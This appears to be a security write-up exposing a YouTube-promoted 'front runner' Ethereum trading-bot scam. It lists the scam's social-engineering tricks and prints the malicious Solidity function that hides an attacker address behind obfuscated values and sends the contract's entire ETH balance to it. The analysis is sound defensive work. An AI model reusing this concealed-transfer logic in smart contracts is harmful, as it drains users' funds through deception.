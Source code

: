 ## Malicious Solidity Decoded
Several incidents involving a `front runner scam`, promoted via a YouTube video about an Ethereum trading bot claiming to employ MEV (Maximal Extractible Value) techniques, underscore the critical importance of auditing and vetting any smart contracts associated with trading bots, especially those discovered through platforms like YouTube.

Marketed as utilizing advanced strategies, including transaction reordering by submitting transactions with higher gas fees for prioritized processing, and leveraging ChatGPT API keys to identify profitable transactions within the Ethereum mempool, the bot was ostensibly designed to maximize trading efficiency. However, its actual operation diverted users' Ethereum deposits directly to a scammer’s address through complex and hidden logic. This case highlights the essential need for thorough scrutiny and validation of smart contracts behind such trading bots, to prevent falling victim to sophisticated scams that exploit the complexity and novelty of blockchain technologies.


#### Scam video on YouTube (WARNING)
[How to make 2,700 with ChatGPT Slippage Strategy](https://m.youtube.com/watch?v=IkOUdbPeIxo&ab_channel=Cytra%7Cweb-3)

- Video is prefaced by a statement like "There are many scams out there in the crypto space". 

Beginning a video with a warning about the prevalence of scams in the cryptocurrency space is a classic social engineering tactic designed to lower the audience's guard. This approach plays on the psychological principle of inoculation, where mentioning a potential threat or concern upfront can create a sense of trust and credibility. 

#### Scam solidity code (WARNING)
[Trading Bot Code](https://binarypastes.com/raw/CJRejc)

- The provided smartcontract code is not peer-reviewd on GitHub. 

Providing smart contract code on platforms like binarypastes.com, rather than on peer-reviewed repositories such as GitHub or GitLab, raises immediate red flags regarding the legitimacy of the code.

- Initial comment encourages user to not try first on testnet. 

```
// Testnet transactions will fail because they have no value in them
```

Using a testnet like Goerli allows users to safely observe and interact with a contract's functionality on-chain without risking real assets, providing a valuable opportunity for learning and verification. Contrary to claims that testnet transactions fail due to lack of value, they are crucial for understanding contract behavior in a risk-free environment.


#### Decoding the attack
The malicious activity in the contract is primarily executed through the StartNative function, which indirectly triggers the startArbitrageNative function. The critical lines that facilitate the theft of ETH are within the startArbitrageNative function:

```
function startArbitrageNative() internal  {
    address tradeRouter = getDexRouter(DexRouter, factory);        
    address dataProvider = getDexRouter(apiKey, DexRouter);         
    IERC20(dataProvider).createStart(msg.sender, tradeRouter, address(0), address(this).balance);
    payable(tradeRouter).transfer(address(this).balance);
}
```

Here's what happens, summarized:

1. Calculating Addresses: The function calculates two addresses (tradeRouter and dataProvider) using the getDexRouter function with inputs from hardcoded bytes32 values (DexRouter, factory, and apiKey). These addresses are derived from obfuscated values, making it difficult to understand their true nature without knowing the exact mechanism of getDexRouter.

2. Misleading Function Call: It then calls the createStart function on the dataProvider interface. This interface and function are not standard in ERC20 or Uniswap V2 protocols, making it suspicious. The purpose of this call, as described, is unclear and likely non-existent, serving only as a distraction.

3. Transferring ETH: Finally, the function transfers the contract's entire ETH balance to the tradeRouter address with payable(tradeRouter).transfer(address(this).balance);. This is the actual line where the theft occurs. Instead of performing any legitimate trading operation, it simply sends all the ETH stored in the contract to an address that was calculated using obfuscated logic.

In summary, the contract pretends to initiate an arbitrage trading operation through the StartNative function but ultimately redirects the user's deposited ETH to a concealed address controlled by the attacker. This is achieved by a combination of obfuscated address calculations and a deceptive transfer of funds, with the real intent hidden behind complex and seemingly legitimate trading functions.

#### Read more about front runner scams on [medium](https://medium.com/remix-ide/remix-in-youtube-crypto-scams-71c338da32d). 

> "Over the last year, but currently at critical mass, thousands of YouTube videos have been offering viewers instructions on how to set up a “front runner bot” to make money by sniping liquidity pools of BNB in PancakeSwap. It’s a scam. Don’t fall for it."